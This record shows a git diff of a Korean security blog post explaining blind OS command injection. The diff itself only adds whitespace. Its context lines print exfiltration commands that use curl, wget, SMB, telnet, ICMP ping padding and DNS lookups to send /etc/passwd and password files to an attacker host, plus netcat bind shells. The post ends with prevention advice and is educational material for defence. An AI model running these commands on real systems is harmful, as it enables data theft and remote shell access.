

Before and after one commit to hacktagon/hacktagon.github.io, a Jekyll site: the page built from _posts/2017-03-12-Blind-OSCommandInjection_Persu.md, in a window 1280 px wide and 1400 px high, scrolled down 6441 px. Shown: the whole window at 94% size, without its empty margins (158-1116 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; some of the changed text lies outside the part shown.

Commit message:
init
test

````diff
--- a/_posts/2017-03-12-Blind-OSCommandInjection_Persu.md
+++ b/_posts/2017-03-12-Blind-OSCommandInjection_Persu.md
@@ -36,6 +36,7 @@
 지금부터는 다양한 명령어를 통해 Blind OS Command Injection에 대해 알아 보겠다.
 
 1. NetCat (NC)
+
 NC는 TCP, UDP을 통해 네트워크 연결을 가능하게 하며, 데이터를 읽고 쓰기가 가능한 명령어다.
 
 - 사용법 : https://en.wikipedia.org/wiki/Netcat
@@ -64,6 +65,7 @@
 이렇듯 NC를 통해 특정한 파일을 읽을 수 있으며, 리버스 쉘을 통해 쉘에 접근 할 수 있다.
 
 2. cURL
+
 cURL은 다양한 프로토콜을 사용하여 데이터를 전송하는 라이브러리 및 명령 줄 도구이며 데이터 추출을위한 매우 유용한 도구다. 취약한 서버에 cURL이 있으면 악의적인 웹 서버에 파일을 POST하거나 FTP / SCP / TFTP / TELNET 등의 프로토콜을 사용하여 파일을 전송할 수 있다.
 
 - 사용법 : https://en.wikipedia.org/wiki/CURL
@@ -77,12 +79,15 @@
 - curl –T {path to file} ftp://xxx.xxx.xxx.xxx –user {username}:{password}
 
 <img src="{{ site.url }}/images/2017-03-12/five.png" style="display: block; margin: auto;">
+
 위 명령은 -T 옵션을 이용하여, 공격자의 ftp 서버에 접근하여 file을 전송하는 명령이다.
 
 솔직히 cURL은 평소에 잘 사용하지 않는 명령어라 옵션에 대한 정리 및 이해가 필요하다...
 
 3. WGET
+
 Wget은 웹에서 파일을 비 대화식으로 다운로드 할 때 일반적으로 사용되는 도구. 특히 사용자 정의 헤더 및 POST 요청을 할 수 있다.
+
 - 사용법 : https://en.wikipedia.org/wiki/Wget
 - wget –header=”EVIL:$(cat /data/secret/password.txt)”http://xxx.xxx.xxx:xxx
 - –header=’name:value’ : HTTP Request 메세지 전송 시 특정 헤더에 value 추가하는 옵션
@@ -92,6 +97,7 @@
 위 그림처럼 명령어 전송 시 서버측 로그를 보게 되면, header에 시스템 파일이 노출되는 것을 알 수 있다.
 
 추가적으로 사용할 수 있는 명령어는 아래와 같다.
+
 - wget –header=”evil:`cat /etc/passwd | xargs echo –n`” http://xxx.xxx.xxx:xxxx
 
 <img src="{{ site.url }}/images/2017-03-12/seven.png" style="display: block; margin: auto;">
@@ -101,12 +107,15 @@
 <img src="{{ site.url }}/images/2017-03-12/eight.png" style="display: block; margin: auto;">
 
 - wget –post-file trophy.php http://xxx.xxx.xxx.xxx:xxxx
+
 특정 파일을 post body 영역에 전송하는 명령어
 
 <img src="{{ site.url }}/images/2017-03-12/nine.png" style="display: block; margin: auto;">
 
 4. SMB
+
 Windows 운영체제를 사용하는 PC에서 Linux 또는 UNIX 서버에 접속하여 파일이나 프린터를 공유하여 사용할 수 있도록 해 주는 소프트웨어이다.
+
 - 사용법 : https://ko.wikipedia.org/wiki/%EC%82%BC%EB%B0%94_
 - net use h: \\xxx.xxx.xxx.xxx\web /user:{username} {password} && copy {File to Copy} h:\{filename}.txt
 
@@ -115,7 +124,9 @@
 잘 사용하지 않지만, 특정 명령어를 사용할 수 없고 SMB 프로토콜이 활성화 되어 있는 경우 유용하게 쓰일 수 있다.
 
 5. TELNET
+
 TELNET 프로토콜은 원격에서 쉘에 접근할 수 있는 서비스를 제공한다. 23번 Default Port를 사용하고 있으며, 평문 전송을 통해 데이터를 전달 하게 된다. (대부분 한번 쯤 써본 서비스...)
+
 - 사용법 : https://en.wikipedia.org/wiki/Telnet
 - telnet xxx.xxx.xxx.xxx {port} < {file to transfer}
 
@@ -124,7 +135,9 @@
 공격자가 NC 를 이용해 특정 포트를 오픈하고 있을 시 위 명령어를 통해 Telnet 서비스에 연결하게 되지만 실제로는 지정한 파일이 입력되어 공격자 PC에는 지정한 파일의 정보가 노출되는 것을 알 수 있다.
 
 6. ICMP
+
 ICMP 프로토콜은 목적지 IP에 대해 상태를 점검 하거나, management하기 위해 사용되는 서비스다. 보통 우리가 자주 쓰는 ping 명령어 또한 ICMP 메세지를 통해 전송되는 것이며, 위 내용과는 조금 다른 방식으로 사용된다.
+
 - cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done
 
 <img src="{{ site.url }}/images/2017-03-12/13.png" style="display: block; margin: auto;">
@@ -136,15 +149,17 @@
 그 옵션이 바로 -p 옵션이며, 최대 16 개의 "패드"바이트를 지정할 수 있다. 여기서 공격자가 추출하고자하는 데이터를 저장하는 것이다.
 
 7. DNS
+
 DNS 프로토콜은 Domain name에 해당하는 IP 주소를 DNS 서버에 요청하여, 목적지 URL의 IP를 알아 오는 역할이다.
+
 - cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done
 
 <img src="{{ site.url }}/images/2017-03-12/15.png" style="display: block; margin: auto;">
 
 DNS 프로토콜은 해당 URL의 IP를 서버에 요청시 쿼리를 날리게 되는데 위 그림에서 사용한 방식은 요청할 URL에 파일의 값으로 사용한다는 내용이다. 충분히 가능한 얘기이며, 이 또한 프로토콜의 특성을 이용하는 방법이다.
 
+8. 추가 내용
 
-8. 추가 내용
 - nc -l -p 9090 -e cmd.exe (Windows)
 - nc -l -p 9090 -e /bin/bash (*nix)
 
@@ -158,6 +173,7 @@
 ```
 
 ### Blind OS Command Injection Prevention
+
 OS Command Injection 공격은 IoT 디바이스에서 많이 발견되는 취약점이다. 이를 방어 하기 위한 방법은 아래와 같다.
 
 - 시스템 명령어 사용 시 상수 값을 통한 입력값 제한
````
